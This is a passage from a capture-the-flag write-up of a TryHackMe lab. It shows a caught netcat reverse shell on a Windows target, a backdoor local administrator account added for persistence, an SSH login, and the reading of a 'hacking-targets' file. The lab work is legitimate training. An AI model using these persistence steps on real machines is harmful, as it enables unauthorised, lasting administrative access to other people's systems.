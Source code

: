The problem here is the shell will not be persistent and will time out so we have to make it somehow.

## Shell Persistence

Since we can run commands before disconnecting, we can add a new user to the Administrator group to access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ nc -lvnp 8080                     
listening on [any] 8080 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.142.189] 50150
C:\Windows\system32> net user mdn0x HackSmarter123 /add
The command completed successfully.

C:\Windows\system32> net localgroup administrators mdn0x /add
The command completed successfully.
```

Now we can access on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/HackSmarterSEC]
└─$ ssh mdn0x@hss.thm
mdn0x@hss.thm's password: 
(c) 2018 Microsoft Corporation. All rights reserved.
 
mdn0x@HACKSMARTERSEC C:\Users\mdn0x>
```

We can find the Targets directory and the file :

```powershell
PS C:\Users\Administrator\Desktop\Hacking-Targets> ls


    Directory: C:\Users\Administrator\Desktop\Hacking-Targets


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/27/2023   9:40 AM             53 hacking-targets.txt


PS C:\Users\Administrator\Desktop\Hacking-Targets> cat .\hacking-targets.txt
Next Victims:  
CyberLens, WorkSmarter, SteelMountain
```

Awesome.